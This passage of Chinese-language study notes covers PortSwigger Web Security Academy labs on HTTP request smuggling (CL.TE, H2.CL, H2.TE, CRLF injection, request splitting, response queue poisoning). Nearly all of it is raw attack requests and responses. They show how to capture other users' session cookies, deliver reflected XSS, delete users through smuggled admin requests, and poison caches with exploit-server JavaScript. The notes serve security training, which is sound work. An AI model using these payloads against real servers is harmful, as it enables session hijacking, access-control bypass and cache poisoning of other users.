Transfer-Encoding: chunked

0


```

剩下這些留在 Backend Server 的 unprocessed

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

normal request

```
POST /login HTTP/1.1
Host: vulnerable-website.com
```

結合後

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```

normal request's response html

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
```

:::info
由於我們不知道 Frontend Server 到 Backend Server 中間塞了多少 Custom Headers，所以需要猜測 Content-Length

- 太短的話，Headers 會被截斷
- 太長的話，Backend Server 會一直等待 CL 長度湊滿，導致 timeout
::: -->

## Lab: CL.TE + front-end request rewriting

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#revealing-front-end-request-rewriting  |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting |

目標: Find reflected output, observe `X-??????-IP` and delete the user `carlos`

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="blue">Content-Length: 166</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">POST / HTTP/1.1</div>
  <div className="orange">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="orange">Content-Type: application/x-www-form-urlencoded</div>
  <div className="orange">Content-Length: 118</div>
  <div className="orange"></div>
  <div className="orange">search=</div>
</div>

:::info
CL.118 是慢慢試出來的，太長會 timeout，太短會被截斷
:::

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

Response

```
0 search results for 'POST / HTTP/1.1
X-RQxAje-Ip: xx.xxx.x.xxx
Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net

'
```

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="blue">Content-Length: 161</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /admin/delete?username=carlos HTTP/1.1</div>
  <div className="orange">X-RQxAje-Ip: 127.0.0.1</div>
  <div className="orange">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="orange">Content-Length: 111</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0ab300c20339d30483de9c24003c0068.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- 這題是 CL.TE

attack request

```
POST / HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 166

0

POST / HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150

search=
```

normal request

```
POST / HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net


```

normal request's response

```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 185

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out: sent = true, receivedEmptyResponse = true, timedOut = true</h1></body></html>
```

看來 `Content-Length: 150` 太大，改成 `Content-Length: 100` 之後，得到

```
0 search results for 'POST / HTTP/1.1
X-EepdRe-Ip: xx.xxx.x.xxx
Host: 0a630095037681bc808d620900d500d5.web-securi'
```

attack request

```
POST / HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 217

0

GET /admin/delete?username=carlos HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net
X-EepdRe-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

search=
```

P.S. `Content-Length: 118` 的算法

```ts
Buffer.byteLength(
  `search=POST / HTTP/1.1\r\nX-EepdRe-Ip: xx.xxx.x.xxx\r\nHost: 0a630095037681bc808d620900d500d5.web-security-academy.net\r\n\r\n`,
);
```

normal request

```
POST / HTTP/1.1
Host: 0a630095037681bc808d620900d500d5.web-security-academy.net


``` -->

## Capturing other users' requests

https://portswigger.net/web-security/request-smuggling/exploiting#capturing-other-users-requests

<!-- 利用的技巧跟 [Revealing front-end request rewriting](#revealing-front-end-request-rewriting) 類似 -->

例如: 評論功能 or 聊天室

## Lab: CL.TE + capture other users' requests

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#capturing-other-users-requests   |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests |

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a7000ff04e7fea280e58580009c00f1.web-security-academy.net</div>
  <div className="blue">Content-Length: 309</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">POST /post/comment HTTP/1.1</div>
  <div className="orange">X-RQxAje-Ip: 127.0.0.1</div>
  <div className="orange">Host: 0a7000ff04e7fea280e58580009c00f1.web-security-academy.net</div>
  <div className="orange">Content-Type: application/x-www-form-urlencoded</div>
  <div className="orange">Cookie: session=a7nyuWj07MlC7Ulj1W8ZFCs30NXQBKnT</div>
  <div className="orange">Content-Length: 928</div>
  <div className="orange"></div>
  <div className="orange">csrf=ihwPQx34auWPOeiAQAOYH37dr7leL2BF&postId=1&name=victim&email=victim%40email&comment=</div>
</div>

<!-- normal request => 瀏覽器訪問 /post?postId=1

- 如果看到 /post/comment/confirmation?postId=1 => 代表是自己吃到 smuggled request
- 如果看到 /post?postId=1 => 代表是 victim 吃到 smuggled request => 這時候就可以去看留言

我們每發 5 個請求，victim 就會發 1 個請求，所以剛好都會在第三輪 attack request 發完後，victim 中招；持續增加 Content-Length 後，最終在 930 這邊停下來

victim comment

```
GET / HTTP/1.1 Host: 0a7000ff04e7fea280e58580009c00f1.web-security-academy.net sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Linux" upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br, zstd accept-language: en-US,en;q=0.9 priority: u=0, i cookie: victim-fingerprint=2w0vr7P674Qojl43HVlxKJUbg12QXMtS; secret=swjanvSP3Bx2GxUCLiKgWprC1SgmwZWl; session=JcCbS08nw0a8beFYjLRLEWywvDtEuzyv Content-Length: 0
```

把這些 cookie 塞到自己的瀏覽器，訪問 /my-account，即可通關～ -->

## Lab: CL.TE + deliver reflected XSS

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-exploit-reflected-xss |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss                             |

<!-- 評論頁有 reflected XSS，PoC

```
GET /post?postId=1 HTTP/1.1
Host: 0acd00a80432e9318004c182008a0050.web-security-academy.net
User-Agent: "><script>alert(1)</script><a href="


```

Response HTML

```html
<input required type="hidden" name="userAgent" value="" />
<script>
  alert(1);
</script>
<a href=""></a>
``` -->

Attack

```
POST / HTTP/1.1
Host: 0acd00a80432e9318004c182008a0050.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 97

0

GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1)</script><a href="
Start-Line: x
```

下一個使用者正常訪問，就會中招～

## Lab: CL.TE, web cache poisoning

| Dimension | Description                                                                                                                   |
| --------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-perform-web-cache-poisoning |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning                             |

<!-- ### Step0: 尋找 30x redirect 的 API Endpoint

找到留言功能

```ts
fetch(`${location.origin}/post/comment`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "csrf=7l5NCd3IrxwNh4D2CBiI4gShmiBLg5SB&postId=4&comment=123&name=123&email=123%40123",
  method: "POST",
  credentials: "include",
});
```

回傳 302 + `Location: /post/comment/confirmation?postId=4`

### Step1: 透過留言功能，得知 victim's request

先用 [Lab: capture other users' requests](#lab-clte--capture-other-users-requests) 的技巧，確認 victim 會發送的請求

attack request

```
POST / HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 311

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: exploit-0a85007003ab82fb803c66a7016b00f2.exploit-server.net
Cookie: session=G4Xeh9oUYZsf4jPmBOCpcsCFslb3Bhn2
Content-Length: 938

csrf=7l5NCd3IrxwNh4D2CBiI4gShmiBLg5SB&postId=2&&name=victim3&email=victim%40123&comment=
```

透過留言，得知 victim's request

```
GET /post?postId=1 HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate, br, zstd
accept-language: en-US,en;q=0.9 priority: u=0, i
cookie: victim-fingerprint=kRwHpEaoSoFPHR5buuw9U74vdv842gjA; secret=htCvrd1solam3fLdtcQd5DClazOiGBPA; session=cPht5UIdA2FVSJgV74nM6caPmxnbPp3D
Content-Length: 0


```

### Step2: 確認快取資源

這題有快取的資源是 `/resources/js/tracking.js`

### Step3: exploit open redirect using attacker host

attack request

```
POST / HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 311

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: exploit-0a85007003ab82fb803c66a7016b00f2.exploit-server.net
Cookie: session=G4Xeh9oUYZsf4jPmBOCpcsCFslb3Bhn2
Content-Length: 195

csrf=7l5NCd3IrxwNh4D2CBiI4gShmiBLg5SB&postId=2&&name=victim3&email=victim%40123&comment=
```

normal request

```
GET /resources/js/tracking.js HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net


```

normal request's response

```
HTTP/1.1 302 Found
Location: /post/comment/confirmation?postId=2
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0


```

有成功讓 `/resources/js/tracking.js` 指到 `/post/comment/confirmation`，但 Host 還是沒變

### Step4: exploit open redirect using protocol-relative URL

attack request

```
POST / HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 370

0

POST //exploit-0a85007003ab82fb803c66a7016b00f2.exploit-server.net/post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net
Cookie: session=G4Xeh9oUYZsf4jPmBOCpcsCFslb3Bhn2
Content-Length: 195

csrf=7l5NCd3IrxwNh4D2CBiI4gShmiBLg5SB&postId=2&&name=victim3&email=victim%40123&comment=
```

normal request

```
GET /resources/js/tracking.js HTTP/1.1
Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net


```

normal request's response

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 11

"Not Found"
```

這個 "Not Found" 應該是 .web-security-academy.net 回應的，因為 exploit-server 的 404 是

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Server: Academy Exploit Server
Keep-Alive: timeout=15
Content-Length: 45

"Resource not found - Academy Exploit Server"
```

### Step5: exploit open redirect using attacker host + another endpoint

後來發現 30x redirect 的目標是 `/post/next?postId=4` => 302 + `Location: https://0a2100b003e582bf8026678c00b10093.web-security-academy.net/post?postId=5` -->

exploit-server

```
/post

HTTP/1.1 200 OK
Content-Type: text/javascript; charset=utf-8

alert(document.cookie)
```

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net</div>
  <div className="blue">Content-Length: 140</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /post/next?postId=3 HTTP/1.1</div>
  <div className="orange">Host: exploit-0a85007003ab82fb803c66a7016b00f2.exploit-server.net</div>
  <div className="orange">Content-Length: 118</div>
  <div className="orange"></div>
  <div className="orange">Only11Bytes</div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">GET /resources/js/tracking.js HTTP/1.1</div>
  <div className="green">Host: 0a2100b003e582bf8026678c00b10093.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

Normal Request's Response

```
HTTP/1.1 302 Found
Location: https://exploit-0a85007003ab82fb803c66a7016b00f2.exploit-server.net/post?postId=4
Set-Cookie: session=CbPrjiZ8Q5qklOvlgVZY2W464GC2w1nm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0


```

<!-- 成功解題～不過這題我有參考答案，不然一直卡在用錯誤的留言功能來當作 30x redirect 的 smuggle request -->

## What is the difference between web cache poisoning and web cache deception?

- In web cache poisoning, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
- In web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

## Lab: CL.TE, web cache deception

| Dimension | Description                                                                                                                   |
| --------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-perform-web-cache-deception |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception                             |

<!-- 我發現這題好像有設計缺陷，用 [Lab: capture other users' requests](#lab-clte--capture-other-users-requests) 的技巧即可提取 victim 的 session，根本不需要用到 web cache deception 的技巧XD

attack request

```
POST / HTTP/1.1
Host: 0a690093041173bd829f7ee600d0003e.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 310

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 0a690093041173bd829f7ee600d0003e.web-security-academy.net
Cookie: session=EO3DI8ZLAGPx3LP90tOV4DhL4jYytANd
Content-Length: 950

csrf=QBVcCAvHw91IjrBUfXxUkhTeU6seFJ0A&postId=2&&name=victim1&email=victim1%40123&comment=
```

normal request => 瀏覽器直接訪問 `/post?postId=2`

一樣是第三輪 attack request 之後，victim 就會發起 HTTP Request，之後就可以從留言提取 victim 的 Cookie，成功通關～

但這題是要考 Web Cache Deception，所以我打算重新做一次 -->

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a7e002003dd8abf80c32674001e00b5.web-security-academy.net</div>
  <div className="blue">Content-Length: 44</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /my-account HTTP/1.1</div>
  <div className="orange">Start-Line: x</div>
</div>

<!-- 讓 victim 的 Cookie 都添加到 smuggled request headers 後面，之後瀏覽器 F12 > Console -->

Normal

```ts
fetch(`${location.origin}/resources/js/tracking.js`)
  .then((res) => res.text())
  .then(console.log);
```

<!-- 我嘗試一次就提取到 victim 的 `/my-account` 頁面～ -->

## 中場休息

以上皆為 HTTP/1.1 的 Request Smuggling 的漏洞，接下來要進到 HTTP/2～

## HTTP/2 工具包

Burp Suite 讓我們可以用 HTTP/1.1 的 Syntax 去撰寫 HTTP/2 的 Request，但有些攻擊向量是 HTTP/2 獨有的

- [HTTP/2-exclusive attacks](https://portswigger.net/burp/documentation/desktop/http2/performing-http2-exclusive-attacks)

## Lab: H2.CL request smuggling

| Dimension | Description                                                                                                   |
| --------- | ------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced#h2-cl-vulnerabilities                         |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling |

目標: Web Cache Poisoning => `alert(document.cookie)`

exploit-server

```
/resources

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8

alert(document.cookie)
```

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: 0a5a0076049f20009d8b34e7006800e6.web-security-academy.net</div>
  <div className="blue">Content-Length: 0</div>
  <div className="blue"></div>
  <div className="orange">GET /resources HTTP/1.1</div>
  <div className="orange">Host: exploit-0a1e006204e120469dd0338e01fd007e.exploit-server.net</div>
  <div className="orange">Content-Length: 113</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">GET /resources/js/analyticsFetcher.js HTTP/2</div>
  <div className="green">Host: 0a5a0076049f20009d8b34e7006800e6.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- 這題的手法跟 [Lab: Exploiting HTTP request smuggling to perform web cache poisoning](#lab-exploiting-http-request-smuggling-to-perform-web-cache-poisoning) 類似，我認為有到 EXPERT 等級的難度，但這題竟然只有 PRACTITIONER，可能是因為前面已經講過這個概念了吧...但我即便第二次作答，還是卡關，有回頭看 [Lab: Exploiting HTTP request smuggling to perform web cache poisoning](#lab-exploiting-http-request-smuggling-to-perform-web-cache-poisoning) 的解法，還有部分參考 PortSwigger 的官方 Solution 才解出來的QQ

P.S. 參考 PortSwigger 官方 Solution 的部分是 `GET /resources` 會 302 + `Location: https://0a5a0076049f20009d8b34e7006800e6.web-security-academy.net/resources/`

exploit-server 構造

```
/resources

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8

alert(document.cookie)
```

attack request

```
POST / HTTP/2
Host: 0a5a0076049f20009d8b34e7006800e6.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a1e006204e120469dd0338e01fd007e.exploit-server.net
Content-Length: 100


```

followed by web cache poison request

```
GET /resources/js/analyticsFetcher.js HTTP/2
Host: 0a5a0076049f20009d8b34e7006800e6.web-security-academy.net


```

Backend Server 收到的

```
GET /resources HTTP/1.1
Host: exploit-0a1e006204e120469dd0338e01fd007e.exploit-server.net
Content-Length: 100

GET /resources/js/analyticsFetcher.js HTTP/2
Host: 0a5a0076049f20009d8b34e7006800e6.web-security-academy.net
...
```

Backend Server 回傳的

```
HTTP/2 302 Found
Location: https://exploit-0a1e006204e120469dd0338e01fd007e.exploit-server.net/resources/
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

- Frontend Server 認為 `GET /resources/js/analyticsFetcher.js` 的內容變了，所以會把新的 HTTP Response 快取
- 正常使用者訪問首頁，載入 `/resources/js/analyticsFetcher.js`
- 實際上載入 https://exploit-0a1e006204e120469dd0338e01fd007e.exploit-server.net/resources/ -->

## H2.TE vulnerabilities

https://portswigger.net/web-security/request-smuggling/advanced#h2-te-vulnerabilities

<!-- 成因：

1. HTTP/2 server 允許 `Transfer-Encoding: chunked`
2. 後續 downgrade 到 HTTP/1.1
3. 該 HTTP/1.1 server 支援 `Transfer-Encoding: chunked` -->

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /admin HTTP/1.1</div>
  <div className="orange">Foo: x</div>
</div>

<!-- Attack Request

```
:method: POST
:path: /example
:authority: vulnerable-website.com
transfer-encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Start-Line:
```

Backend Server

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


```

Backend Server unprocessed

```
GET /admin HTTP/1.1
Host: vulnerable-website.com
Start-Line:
``` -->

<!-- ## Lab: HTTP/2 request smuggling via CRLF injection -->

## Lab: H2.TE via CRLF injection

| Dimension | Description                                                                                                                   |
| --------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced#request-smuggling-via-crlf-injection                          |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection |

目標: capture another user's account

<!-- 先嘗試 CRLF Injection

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: 0aca00060344104880643a39002a006a.web-security-academy.net</div>
  <div className="blue">Hello: world\r\nTransfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

預期會收到 timeout

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Content-Length: 125

<html>
  <head>
    <title>Server Error: Proxy error</title>
  </head>
  <body>
    <h1>Server Error: Communication timed out</h1>
  </body>
</html>
``` -->

跟 [Lab: CL.TE + capture other users' requests](#lab-clte--capture-other-users-requests) 一樣的作法

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: 0aca00060344104880643a39002a006a.web-security-academy.net</div>
  <div className="blue">Hello: world\r\nTransfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">POST /post/comment HTTP/1.1</div>
  <div className="orange">Host: 0aca00060344104880643a39002a006a.web-security-academy.net</div>
  <div className="orange">Content-Type: application/x-www-form-urlencoded</div>
  <div className="orange">Cookie: session=njntbwAGoeOzQEl3l5C7kmds2TYv4oZr</div>
  <div className="orange">Content-Length: 920</div>
  <div className="orange"></div>
  <div className="orange">csrf=ECSu5Ujtr8gPzpFEWZZKSpsCTunj6M5o&postId=1&name=victim1&email=victim1%40email.com&comment=</div>
</div>

:::info
CL.920 是慢慢試出來的，太長會 timeout，太短會被截斷
:::

等待使用者 15 秒後訪問首頁，就會觸發留言，然後提取使用者的 session 即可通關～

## Response queue poisoning

https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning

Attack (CL.TE)

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 61</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /anything HTTP/1.1</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

<!-- 看了這篇的介紹，我才發現我最一開始的 [PoC](#2-complete-request)，在 Attack Request 構造兩個完整的 Raw HTTP Request，原來有個專有名詞叫做 "Response queue poisoning"

原文

```
This is achieved by smuggling a complete request, thereby eliciting two responses from the back-end when the front-end server is only expecting one.
```


<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 61</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /anything HTTP/1.1</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Attack Request (Frontend Sever use CL)

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: vulnerable-website.com


```

Backend Server use TE, treat as 2 HTTP Requests

1.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0


```

2.

```
GET /anything HTTP/1.1
Host: vulnerable-website.com


``` -->

Now the Backend Response queue contains the smuggle request's response



<!-- ## Lab: Response queue poisoning via H2.TE request smuggling -->

## Lab: Response queue poisoning via H2.TE

| Dimension | Description                                                                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning                                                                            |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling |

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/2</div>
  <div className="blue">Host: 0a9000e1043742398090175e00b500ea.web-security-academy.net</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /404 HTTP/1.1</div>
  <div className="orange">Host: 0a9000e1043742398090175e00b500ea.web-security-academy.net</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">GET / HTTP/2</div>
  <div className="green">Host: 0a9000e1043742398090175e00b500ea.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

Response

```
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=uMfEUfnuflnmXgCfg42vZP1sS07uBfDh; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

## HTTP/2 request splitting

https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-splitting

[Response queue poisoning](#response-queue-poisoning) 提供的 PoC，是把 smuggled request 放在 body，所以第一個 request 就必須得是 POST 才能帶 body

如果想要讓第一個 request 是 GET 且沒有 body 的話，在 HTTP/2 的世界，可以把 smuggled request 塞在 headers

<div className="httpRawRequest">
  <div className="blue">GET / HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Hello: world\r\n\r\n<span className="orange">GET /admin HTTP/1.1\r\nost: vulnerable-website.com</span></div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

HTTP/2 Downgrade 到 HTTP/1.1，會把 `:authority` 轉成 Host，假設這是添加到 Request Headers 最後面的話，會導致 smuggled request 有兩個 Host

<div className="httpRawRequest">
  <div className="blue">GET / HTTP/1.1</div>
  <div className="blue">Hello: world</div>
  <div className="blue"></div>
  <div className="orange">GET /admin HTTP/1.1</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

解法也很優美，就是把 `\r\nHost: vulnerable-website.com` 往前移

<div className="httpRawRequest">
  <div className="blue">GET / HTTP/2</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Hello: world\r\nHost: vulnerable-website.com\r\n\r\n<span className="orange">GET /admin HTTP/1.1</span></div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Downgrade 之後，變成兩個完整的 HTTP/1.1 Request

<div className="httpRawRequest">
  <div className="blue">GET / HTTP/1.1</div>
  <div className="blue">Hello: world</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue"></div>
  <div className="orange">GET /admin HTTP/1.1</div>
  <div className="orange">Host: vulnerable-website.com</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

<!-- 能想到這個技巧的人，真的是大神... -->

## Lab: HTTP/2 request splitting + response queue poisoning via CRLF injection

| Dimension | Description                                                                                                                   |
| --------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-splitting                                      |
| Lab       | https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection |

Attack

<div className="httpRawRequest">
  <div className="blue">GET / HTTP/2</div>
  <div className="blue">Host: web-security-academy.net</div>
  <div className="blue">Hello: world\r\nHost: web-security-academy.net\r\n\r\n<span className="orange">GET /404 HTTP/1.1</span></div>
  <div className="blue"></div>
  <div className="blue"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">GET / HTTP/2</div>
  <div className="green">Host: web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

Normal Request's Response

```
HTTP/2 302 Found
